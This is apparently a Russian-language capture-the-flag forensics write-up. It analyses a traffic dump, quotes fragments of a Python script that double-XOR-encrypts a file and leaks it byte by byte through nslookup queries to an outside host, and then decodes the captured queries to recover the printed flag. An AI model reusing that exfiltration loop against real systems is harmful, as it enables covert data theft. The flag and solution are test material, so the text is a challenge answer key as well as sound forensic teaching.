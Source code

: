 # Scriptkidding

| Название | Сложность | Автор |
|------|-----|-------|
| Scriptkidding | Easy | @collapsz |

## Описание:

На днях ткнулся в какой-то тестовый сервер и стащил оттуда дешевые авиабилеты. Даже использовал кастомное шифрование. Просчитался? Но где?? 

## TLDR:

Зашифрованная DNS-эксфильтрация в сетевом трафике с известным алгоритмом шифрования 

---
## Решение:

В задании предоставлен дамп сетевого трафика, открываем его в Wireshark и анализируем. В глаза бросается HTTP GET на некий hdfgoa.py

![image](https://github.com/user-attachments/assets/823bfa60-ee5a-4c0c-9e96-3f9d8a6a88a8)

Посмотрим на его содержимое:

![image](https://github.com/user-attachments/assets/a82909c8-0be0-4424-b9ac-25934e628cbf)

Скрипт принимает на вход два аргумента – file и h. Читает файл:

```
try:
    with open('file', 'rb') as f:
        content = f.read()
```

Шифрует его при помощи двойного ксора и переводит в байты:

```
def xor(data, key):
    return bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])

try:
    with open('file', 'rb') as f:
        content = f.read()
        enc = xor(xor(content, key1), key2)
        bytes_list = [hex(b)[2:].zfill(2) for b in enc]
```

Далее побайтово отправляет dns-запрос на поддомен *.hostname – классическая dns-эксфильтрация:

```
for byte in bytes_list:
            subprocess.run(['nslookup', '-type=TXT', f'{byte}.{hostname}'])
            subprocess.run(['sleep', '1'])
```

Нам известен алгоритм шифрования, поэтому после определения техники атаки остается лишь вытащить нужные данные и расшифровать их.  

Для того работы с pcap-файлом воспользуемся утилитой tshark. Для начала достанем из него все DNS-запросы:

```
tshark -r dns.pcap -Y "dns" -T fields -e dns.qry.name 
```

Из них подавляющее большинство летит на хост *.oastify.com – отсортируем их от всего остального:

```
tshark -r dns.pcap -Y "dns" -T fields -e dns.qry.name | grep -E '.*\.oastify\.com$'
```

Уже лучше. Теперь очистим дубликаты, отсечем домен верхнего уровня и соединим все воедино:

```
tshark -r dns.pcap -Y "dns" -T fields -e dns.qry.name | grep -E '.*\.oastify\.com$' | grep -o '^[^.]\+' | tr -d '\n'
```
Теперь, развернем алгоритм шифрования:

```
import sys

def xor(data, key):
    return bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])

def decode_hex(hex_str):
    try:
        encrypted_data = bytes.fromhex(hex_str)
        
        key1 = bytes.fromhex('1337')
        key2 = bytes.fromhex('DEADBEEF')
        
        decrypted = xor(xor(encrypted_data, key2), key1)
        
        return decrypted.decode('utf-8', errors='replace')
    
    except Exception as e:
        print(f"Decoding error: {str(e)}")
        return None

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 decoder.py <hex_string>")
        sys.exit(1)    
    hex_input = sys.argv[1].strip()
    result = decode_hex(hex_input)
    flag_part = 'rdg{'
    if result:
        if flag_part in result: 
       	    print("[+] Flag found", result)
        else:
            print("[-] No flag found")
    else:
        print('Failed to decrypt')
```

И скормим ему нашу зашифрованную строку:

```
python3 decrypt.py $(tshark -r dns.pcap -Y "dns" -T fields -e dns.qry.name | grep -E '.*\.oastify\.com$' | grep -o '^[^.]\+' | tr -d '\n')
```
![image](https://github.com/user-attachments/assets/03e3d11c-96cf-4341-a306-6c68e46a0493)

## Flag:

rdg{d42c857ad179690d37ba7857f2b0ab54}
